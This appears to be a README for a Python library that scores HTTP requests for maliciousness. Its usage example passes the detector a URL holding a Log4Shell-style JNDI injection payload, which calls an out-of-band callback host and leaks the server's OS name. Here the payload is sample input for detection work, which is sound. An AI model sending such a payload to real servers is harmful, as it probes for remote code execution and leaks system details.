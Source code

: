 # httpanalyzer

This is a python library for analyzing http-request. Useful to reduce unnecessary traffic. 

## License

This project is licensed under the MIT-license. See LICENSE.txt for more information.

## Installing

Make sure pip3 is installed and up to date before executing this command.

```
pip3 install httpanalyzer
```

## Usage

Import the library:

```
import httpanalyzer
```

Create a new request instance:

```
instance = httpanalyzer.Request(http_headers, ip, url, admin_panels)
```

Print the malicious rating:

```
print(instance.malicious())
```

### Example

```
import httpanalyzer

instance = httpanalyzer.Request(
    {'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
     'accept-encoding': 'gzip, deflate, br',
     'accept-language': 'en-US,en;q=0.5',
     'connection': 'keep-alive',
     'host': '127.0.0.1:80',
     'user-agent': 'curl/7.82.0'},
    '159.223.205.51',
    '/api/geojson?url=${jndi:ldap://${sys:os.name}.cd387hid68000106u4rtc.oast.me}',
    ['wp-content', 'wp-config', 'wp-includes']
)
print(f"Malicious rating: {instance.malicious() * 100}%")
```

## Dependencies

Python 3.6 or newer is required. Older version do not work.

